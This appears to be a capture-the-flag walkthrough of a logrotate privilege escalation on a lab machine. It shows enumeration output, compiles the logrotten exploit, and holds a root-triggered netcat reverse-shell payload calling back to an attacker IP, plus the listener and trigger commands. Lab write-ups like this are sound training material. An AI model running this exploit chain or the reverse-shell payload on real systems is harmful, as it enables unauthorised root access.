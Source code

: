     reader@book:/dev/shm$ ./linpeas
      ..
       [+] Writable log files (logrotten)
       [i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#logrotate-exploitation
         Writable: /home/reader/backups/access.log.1
         Writable: /home/reader/backups/access.log

    reader@book:/dev/shm$ ./pspy64
      ..
      2020/06/07 09:18:59 CMD: UID=0    PID=39210  | /usr/sbin/logrotate -f /root/log.cfg
      2020/06/07 09:18:59 CMD: UID=0    PID=39209  | /bin/sh /root/log.sh

   As both criteria is true I googled for "logrotate privilege escalation" and found the logrotten github, containing the exact
   commands and scripts needed for this exploit.


2. Prepare for the exploit and grab all the files needed from github.

   Copy and paste logrotten.c into the victim machine and compile it.
    reader@book:/dev/shm$ gcc -o logrotten logrotten.c
    reader@book:/dev/shm$ chmod +x logrotten

   Copy and paste the payload to a file on the victim machine.
    reader@book:/dev/shm$ cat payloadfile
      if [ `id -u` -eq 0 ]; then (/bin/nc -e /bin/bash 10.10.14.2 4488 &); fi


3. Execute the exploit and be fast to grab what you need before the session expires (roughly 10 seconds)

    a) Start logrotten:
        reader@book:/dev/shm$ ./logrotten -p ./payloadfile /home/reader/backups/access.log
          Waiting for rotating /home/reader/backups/access.log...

    b) Start a listener:
        root@nidus:/opt/scanners/linux# nc -lvnp 4488
          listening on [any] 4488 ...

    c) Write something to access.log to start the logging process:
        reader@book:~/backups$ pwd
          /home/reader/backups
        reader@book:~/backups$ echo "a" > access.log

    d) Logrotten should now receive the rotation and execute your payload, giving you a shell. Note that it can take
       a few seconds before you get the shell, depending on the rotation. Once you get the shell you must act quick
       because the shell will die in about 10 seconds.

       NOTE: For me the exploit didn't work at first. But changing the order of my different SSH-sessions and all
             the programs made it work - so play around with that if you don't get any answer from logrotten.

        reader@book:/dev/shm$ ./logrotten -p ./payloadfile /home/reader/backups/access.log
          Waiting for rotating /home/reader/backups/access.log...
          Renamed /home/reader/backups with /home/reader/backups2 and created symlink to /etc/bash_completion.d
          Waiting 1 seconds before writing payload...
          Done!
